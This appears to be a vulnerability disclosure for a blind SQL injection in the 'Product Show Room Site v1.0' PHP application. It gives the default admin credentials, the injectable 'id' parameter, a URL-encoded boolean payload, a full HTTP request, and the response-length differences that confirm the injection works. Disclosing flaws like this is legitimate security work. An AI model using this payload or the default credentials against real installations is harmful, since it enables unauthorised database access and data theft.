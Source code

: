 # Product Show Room Site v1.0 by oretnom23 has SQL injection

The password for the backend login account is: admin/admin123

vendors: https://www.sourcecodester.com/php/15370/product-show-room-site-phpoop-free-source-code.html

Vulnerability File: /psrs/admin/categories/view_category.php?id=

Vulnerability location: /psrs/admin/categories/view_category.php?id=, id

Current database name: hsrs_db ,length is 7

[+] Payload: /psrs/admin/categories/view_category.php?id=1%27%20and%20length(database())%20=7--+ // Leak place ---> id

```sql
GET /psrs/admin/categories/view_category.php?id=1%27%20and%20length(database())%20=7--+ HTTP/1.1
Host: 192.168.1.19
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: PHPSESSID=7g6mvmuq5m1o1cvqrhprll4jr1
Connection: close
```

When length (database ()) = 6, Content-Length: 33616
![image](https://user-images.githubusercontent.com/54017627/171829131-88845078-4173-4b1f-9015-c7166a4482f9.png)

![image](https://user-images.githubusercontent.com/54017627/171829197-2f58b772-5f19-45cc-9d8c-b9dd3c03d2de.png)

When length (database ()) = 7, Content-Length: 552
![image](https://user-images.githubusercontent.com/54017627/171829092-bbd260b8-c7e2-446b-9e34-f7d0407b1abb.png)

![image](https://user-images.githubusercontent.com/54017627/171829155-59c0b012-8187-4141-b8a3-32aa2ba83dfa.png)
